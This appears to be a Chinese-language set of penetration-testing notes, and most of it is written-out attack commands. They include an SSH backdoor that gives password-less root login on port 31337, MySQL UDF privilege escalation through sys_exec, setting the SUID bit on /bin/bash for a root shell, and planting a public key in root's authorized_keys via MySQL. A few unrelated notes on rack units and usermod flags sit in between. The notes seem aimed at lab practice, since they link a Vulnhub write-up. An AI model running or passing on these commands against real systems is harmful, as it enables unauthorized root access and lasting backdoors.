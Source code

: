 - SSH后门

  ```
  ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337
  执行完之后，任何一台机器ssh root@IP -p 31337 随便密码即可登录
  ```

- U是一种表示服务器外部尺寸的单位，是unit的缩略语，1U=4.445厘米

- usermod 

  ```
  -g<群组>：修改用户所属的群组；
  -G<群组>；修改用户所属的附加群组；
  修改群组使用附加：usermod -a -G root test
  ```

- Linux下MySQL的UDF提权例子：[https://uknowsec.cn/posts/uncategorized/Vulnhub渗透测试练习-Kioptrix-4.html](https://uknowsec.cn/posts/uncategorized/Vulnhub渗透测试练习-Kioptrix-4.html)

  ```
  sqlmap的动态链接库地址：/usr/local/Cellar/sqlmap/1.2.7/libexec/udf/mysql
  上传so到/usr/lib目录下
  use mysql;
  create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
  select sys_exec('id > /tmp/out; chown john.john /tmp/out');
  ```

- 如果有权限，直接将bash二进制可执行文件赋予SUID位，然后进入Run bash in Privileged mode，否则仍然是当前用户权限的shell

  ```
  chmod u+s /bin/bash
  bash -p 
  whoami && id
  ```

- 如果有权限，直接写公钥至`/root/.ssh/authorized_keys`，同时注意`/etc/ssh/sshd_config`文件是否允许远程root登录。

  ```
  mysql> select 'ssh-rsa AAAAB3NzaC.....' into outfile '/root/.ssh/authorized_keys';
  Query OK, 1 row affected (0.00 sec)

  # Authentication:
  PermitRootLogin yes
  ```

- SUID、SGID、SBIT

